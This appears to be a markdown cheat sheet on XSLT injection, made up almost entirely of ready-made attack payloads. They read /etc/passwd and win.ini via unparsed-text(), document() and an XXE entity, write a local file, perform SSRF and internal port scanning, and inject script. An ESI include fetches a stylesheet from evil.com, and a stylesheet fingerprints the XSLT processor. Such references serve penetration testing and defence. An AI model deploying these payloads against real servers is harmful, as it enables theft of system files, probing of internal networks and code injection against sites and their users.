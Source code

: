 
## where to find 
In order to exploit this kind of vulnerability you need to be able to store xsl tags in the server side and then access that content

### inject xml file with malicious xslt 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<data>
  <name>John Doe</name>
  <age>30</age>
  <description>
    This is an example of embedded XSLT.
  </description>

  <!-- Embedded XSLT Stylesheet -->
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
</data>

```

### chain with `est injection` attack 
```html
<esi:include src="http://website.com/" stylesheet="http://evil.com/esi.xsl">
</esi:include>
```


## detection


```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="html"/>
<xsl:template match="/">
    <h2>XSLT identification</h2>
    <b>Version:</b> <xsl:value-of select="system-property('xsl:version')"/><br/>
    <b>Vendor:</b> <xsl:value-of select="system-property('xsl:vendor')" /><br/>
    <b>Vendor URL:</b><xsl:value-of select="system-property('xsl:vendor-url')" /><br/>
</xsl:template>
</xsl:stylesheet>
```


## read file


```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```
## write to file 
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:result-document href="local_file.txt">
<xsl:text>Write Local File</xsl:text>
</xsl:result-document>
</xsl:template>
</xsl:stylesheet>
```

## SSRF

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:include href="http://127.0.0.1:5000/xslt"/>
<xsl:template match="/">
</xsl:template>
</xsl:stylesheet>
```

## js injection
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<script>confirm("We're good");</script>
</xsl:template>
</xsl:stylesheet>
```

## xxe
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "/etc/passwd">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
&ext_file;
</xsl:template>
</xsl:stylesheet>
```

## using http 
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<xsl:value-of select="document('/etc/passwd')"/> // get local file
<xsl:value-of select="document('http://172.16.132.1:25')"/>  //port scaning
<xsl:value-of select="document('file:///c:/winnt/win.ini')"/>
</xsl:template>
</xsl:stylesheet>
```

## RCE 
-some times xslt can lead to RCE in certain condtions

check this [documentation](https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.xslt_injection#C%23%2FVB.NET%2FASP.NET)

## tools 

-use tool saxonb-xslt to parse xml
-ex: saxonb-xslt -xsl:transformation.xsl catalogue.xml
